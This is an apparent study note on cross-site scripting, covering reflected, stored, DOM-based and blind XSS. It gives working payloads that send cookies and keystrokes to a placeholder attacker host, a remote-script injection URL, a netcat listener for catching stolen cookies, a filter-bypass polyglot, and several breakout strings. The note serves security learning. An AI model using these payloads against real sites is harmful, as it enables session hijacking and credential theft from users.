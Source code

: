 - injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users
- the hello world of XSS: `<script>alert('XSS');</script>

# Use Cases
## Session Stealing

- user's session, such as login tokens, are often kept in cookies on the targets machine. 
- The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. 
- Once the hacker has these cookies, they can take over the target's session and be logged as that user.
- `<script>fetch('https://HACKER_URL/steal?cookie=' + btoa(document.cookie));</script>`

## Key Logging
- anything you type on the webpage will be forwarded to a website under the hacker's control
- useful for sensetive data like chats, login data, credit card information
- `<script>document.onkeypress = function(e) { fetch('https://HACKER_URL/log?key=' + btoa(e.key) );}</script>`

## Business Logic
- This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`
- `<script>user.changeEmail('mail@HACKER_URL');</script>`


# Reflected XSS
- user-supplied data in an HTTP request is included in the webpage source without any validation
- often in query parameters or url file paths which are "injected" in the source code

example:

url: `https://URL/?error=Invalid Request` (...url encoded)

website:
```html
<div class="error-alert">
	<p>Invalid Request</p>
</div>
```

malicious url:

website:  `https://URL/?error=<script src="https://HACKER_URL/xss.js"></script>` (...url encoded)
```html
<div class="error-alert">
	<p><script src="https://HACKER_URL/xss.js"></script></p>
</div>
```

1. Hacker sends link with malicious payload to user
2. user clicks on the link because it is a trusted url and user is taken to xss vulnareble website
3. link containing hackers script is executed on website
4. hacker gets notified and gets gathered data of the user


# Stored XSS
- XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page
- often in comments 

1. user write a malicious comment with an executable script
2. website's database stores the code
3. other users watching the comment section get the malicious code ecexuted on website
4. hacker gets notified and gets gathered data of the user


# DOM Based XSS
- DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction (see [Document Object Model DOM](../../Software-Engineering/Web/Document%20Object%20Model%20DOM.md))
- difficult to find and requires nore knowledge
- Example: The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
- finding a vulnarable page: need to look for parts of the code that access certain variables that an attacker can have control over, such as `window.location.x` parameters. -> hen need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`


# Blind XSS
- similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first
- example: A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

1. setup a listing server using netcat (or use a different tool): `nc -nlvp 9001` ()
2. enter XSS malicious code (maybe with bypass): `<script>fetch('http://{URL:9001}?cookie=' + btoa(document.cookie) );</script>`
3. look for netcat listings like
```
GET /?cookie=WFNTCg== HTTP/1.1
Host: URL:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.72 Safari/537.36
Accept: */*
Origin: VICTIM_URL
Referer: VICTIM_URL
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
4. decode parameter `echo WFNTCg== | base64 -d`


# Bypass XSS

## Polyglots
- a string bypassing most of things
- it escapes attributes, tags and bypasses filters all in one

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```


## as Input Value

```html
<div class="text-center">
	<p>Hello, <input value="MALICIOUS_VALUE"></p>
</div>
```

... bypass with `"><script>alert('XSS');</script>`

```html
<div class="text-center">
	<p>Hello, <input value=""><script>alert('XSS');</script>"></p>
</div>
```

## surrounded with other tag

```html
<div class="text-center">
	<p>Hello, <textarea>MALICIOUS_VALUE</textarea></p>
</div>
```

... bypass with `</textarea><script>alert('XSS');</script>`

```html
<div class="text-center">
	<p>Hello, <textarea></textarea><script>alert('XSS');</script></textarea></p>
</div>
```


## within JavaScript Code

```html
<script>
	document.getElementsByClassName('name')[0].innerHTML='MALICIOUS_VALUE';
</script>
```

... bypass with `';alert('XSS');//` 

```html
<script>
	document.getElementsByClassName('name')[0].innerHTML='';alert('XSS');//';
</script>
```

## with replacements or filter
when e.g. the "script" is replaced with an empty string and we enter `<script>alert('XSS');</script>` as parameter

```html
<div class="text-center">
	<p>Hello, <>alert('XSS');</></p>
</div>
```

... bypass with `<sscriptcript>alert('THM');</sscriptcript>` 

```html
<div class="text-center">
	<p>Hello, <script>alert('XSS');</script></p>
</div>
```

## Image Selection
ehre you can select a picture and it takes the path of the image

```html
<div class="text-center">
	<h2>Your selected Picture</h2>
	<img src="/images/img.png">
</div>
```

```html
<div class="text-center">
	<h2>Your selected Picture</h2>
	<img src="MALICIOS_VALUE">
</div>
```

bypass with `/images/img.png" onload="alert('XSS');`

```html
<div class="text-center">
	<h2>Your selected Picture</h2>
	<img src="/images/img.png" onload="alert('XSS');">
</div>
```